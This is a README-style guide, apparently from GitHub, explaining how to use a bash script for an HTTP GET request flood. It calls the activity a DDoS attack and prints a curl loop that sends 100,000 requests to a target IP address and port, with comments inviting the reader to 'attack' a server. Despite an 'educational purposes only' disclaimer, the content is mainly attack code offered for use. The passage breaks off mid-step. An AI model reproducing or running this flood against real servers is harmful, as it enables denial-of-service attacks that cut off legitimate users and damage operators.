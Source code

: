 ## Using the HTTP GET Request Flood Bash Script

**Disclaimer**: This guide is for educational purposes only. Unauthorized and malicious use of this script to flood requests to a server is illegal and unethical.

This guide explains how to use the provided Bash script to simulate an HTTP GET request flood. This type of activity, known as a Distributed Denial of Service (DDoS) attack, can overload a server and make it inaccessible to legitimate users.

# Prerequisites

- A Unix-like terminal (Linux or macOS)
- The curl command-line tool

# Steps

1. Access the Bash Script:

    Open a terminal on your system. You can find the terminal application in the "Applications" or "Utilities" folder.

2. Copy the Script:

    Copy the following Bash script and paste it into your terminal:

    ```bash
    #!/bin/bash

    IP_ADDRESS="127.0.0.1" # Change this to the IP address of the server you want to attack
    PORT=80 # Change this to the port number of the server you want to attack
    NUM_REQUESTS=100000 # Change this to the number of requests you want to send

    for ((i = 1; i <= $NUM_REQUESTS; i++)); do
        echo "Sending GET request $i to IP address $IP_ADDRESS"
        curl -sS "http://$IP_ADDRESS:$PORT" # -sS flag to hide the progress bar
        echo "Received response for request $i"
    done
    ```
3. Modify Script Parameters:

    Adjust the following variables in the script according to your testing environment:

    - IP_ADDRESS: Replace with the IP address of the server you want to target.
    - PORT: Replace with the port number of the server you want to target.
    - NUM_REQUESTS: Replace with the number of requests you want to send to the server.

4. Save the Script:

    Save the file with a .sh extension, such as http_flood.sh.

Make the Script Executable:

In your terminal, navigate to the directory containing the script and make it executable by running: